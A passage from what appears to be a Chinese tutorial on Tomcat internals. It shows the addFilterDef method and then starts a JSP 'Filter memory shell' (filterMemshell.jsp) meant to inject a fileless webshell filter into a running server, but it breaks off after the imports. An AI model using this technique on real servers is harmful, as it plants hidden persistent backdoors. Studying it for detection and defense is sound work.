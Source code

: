 [![](assets/1701606655-68a0ed220d514987bd5548f25515e62f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231111135009-2ca9320e-8056-1.png)  
**filterDefs**  
在 StandardContext 中添加 filterDef 的方法

```bash
@Override
public void addFilterDef(FilterDef filterDef) {

    synchronized (filterDefs) {
        filterDefs.put(filterDef.getFilterName(), filterDef);
    }
    fireContainerEvent("addFilterDef", filterDef);

}
```

而 filterDefs 是从配置文件中解析得来的

### 4.4 Filter 内存马

filterMemshell.jsp:

```bash
<%--
Created by IntelliJ IDEA.
User: Dili
Date: 2023/9/18
Time: 16:30
To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%
try {
    // 获取应用程序上下文对象 (ApplicationContextFacade)
    ServletContext servletContext = request.getSession().getServletContext();

```